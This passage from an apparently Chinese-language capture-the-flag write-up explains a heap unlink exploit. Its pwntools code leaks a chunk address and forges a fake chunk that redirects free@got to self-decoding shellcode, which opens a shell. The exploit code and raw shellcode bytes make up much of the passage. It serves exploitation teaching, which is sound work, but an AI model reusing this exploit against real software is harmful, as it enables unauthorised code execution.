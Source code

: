     p.send("3\n")
    p.send("test\n")
    print(p.recvline())	# title
    location = p.recvline() # address:0x....
    location=location.decode().split(':')[1]
    location=location.split('\n')[0]
    location=int(location,16) # test块的地址
    ~~~

2. 伪造堆块 (类似堆溢出覆盖下一个堆块的块首)

    因为程序只按照块首是否为当前地址来判断是否为堆块, 所以可以通过在 content 中伪造一个堆块, 在相应字段填入构造好的地址和代码. Shellcode 是一段在运行时自解码的汇编代码 (做成编码的样子是为了防止 \x00 截断), 解码后通过系统调用获取 shell.

    ~~~python
    shellcode=p32(location+108)
    shellcode+=p32(0x0804a448)
    shellcode+=p32(location+108+12)
    shellcode+=b"\x90\x90\xeb\x04"
    shellcode+=b"AAAA"
    payload =b"\xd9\xed\xd9\x74\x24\xf4\x58\xbb\x17\x0d\x26\x77\x31"
    payload+=b"\xc9\xb1\x0b\x83\xe8\xfc\x31\x58\x16\x03\x58\x16\xe2"
    payload+=b"\xe2\x67\x2d\x2f\x95\x2a\x57\xa7\x88\xa9\x1e\xd0\xba"
    payload+=b"\x02\x52\x77\x3a\x35\xbb\xe5\x53\xab\x4a\x0a\xf1\xdb"
    payload+=b"\x45\xcd\xf5\x1b\x79\xaf\x9c\x75\xaa\x5c\x36\x8a\xe3"
    payload+=b"\xf1\x4f\x6b\xc6\x76"
    shellcode+=payload
    ~~~

    ![image-20231122000457931](/assets/img/2023-11-22-heap-overflow.assets/image-20231122000457931.png)

    通过修改节点内容, 在 content 中伪造一个节点, 将 fd 改为 `free@got - 8 = 0x804a448`, bk 改为 shellcode 的入口地址. 这样在卸载节点的时候, free 函数的 got 表地址已经被改为了 shellcode 的入口地址. 当执行 free 的时候将会跳转到 shellcode 执行.
